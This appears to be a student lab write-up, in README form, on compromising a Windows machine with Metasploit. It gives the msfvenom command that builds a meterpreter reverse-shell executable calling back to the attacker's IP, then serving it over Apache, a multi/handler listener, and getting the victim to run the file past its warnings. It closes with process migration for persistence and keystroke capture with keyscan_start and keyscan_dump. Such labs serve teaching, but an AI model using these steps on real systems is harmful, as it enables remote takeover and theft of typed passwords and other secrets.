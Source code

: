 # Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![](1.png)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.
![](2.png)

copy the fun.exe into the apache /var/www/html folder
![](3.png)

Start apache server sudo systemctl apache2 start
![](4.png)

Check the status of apache2
1[](5.png)

Invoke msfconsole:
msfconsole
![](6.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![](7.png)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css
![](8.png)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![](9.png)

Bypass any warning boxes, double-click the file, and allow it to run.
![](10.png)

On kali give the command exploit
![](11.png)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![](12.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.
![](13.png)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![](14.png)
![](15.png)

keyscan_dump Shows the keystrokes captured so far
![](16.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
